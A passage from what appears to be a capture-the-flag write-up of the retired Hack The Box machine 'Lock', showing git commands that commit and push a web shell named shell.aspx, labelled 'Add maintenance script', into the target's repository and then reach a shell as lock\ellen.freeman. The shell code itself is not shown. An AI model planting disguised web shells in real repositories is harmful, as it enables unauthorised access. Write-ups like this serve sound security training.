 So we got some error due to the `Author identity unknown`. <br>
&rarr; We need to set the author identity.

```bash
└─$ git config --global user.email "ellen.freeman@lock.htb"   

└─$ git config --global user.name "ellen.freeman"

└─$ git commit -m "Add maintenance script"                 
[main 792ed02] Add maintenance script
 1 file changed, 20 insertions(+)
 create mode 100644 shell.aspx

└─$ git push origin main                                   
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 610 bytes | 610.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0 (from 0)
remote: . Processing 1 references
remote: Processed 1 references in total
To http://lock.htb:3000/ellen.freeman/website.git
   73cdcc1..792ed02  main -> main
```

There we go, for the email and name, we can just use random to make sure that it has the author identity. <br>
After commit and push, we back to the `http://lock.htb/` and access the `shell.aspx` file.

![Lock Website](/assets/img/lock-htb-retired-machine/lock-htb-retired-machine_website-10.png)

So our webshell is working well and we are `lock\ellen.freeman` now. <br>
Recon and found out there is another user.

![Lock Website](/assets/img/lock-htb-retired-machine/lock-htb-retired-machine_website-11.png)
